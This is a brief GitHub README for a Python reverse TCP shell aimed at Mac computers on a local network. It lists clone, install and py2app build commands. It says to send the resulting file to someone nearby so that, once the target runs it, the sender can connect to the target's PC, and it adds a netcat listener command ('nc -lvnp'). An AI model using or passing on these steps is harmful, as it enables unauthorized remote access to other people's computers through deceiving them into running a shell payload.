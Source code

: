 # Reverse-TCP-Shell
Local Area Reverse TCP Shell Using Python For Mac

$ git clone https://github.com/neaderlord/Reverse-TCP-Shell

$ cd Reverse-TCP-Shell

$ pip3 install -r requirements.txt

$ python3 setup.py py2app -A

Send the file to someone in your local area when the target execute the file you can connect the targets PC.

(Remember to open a listener by nc -lvnp "your_port")
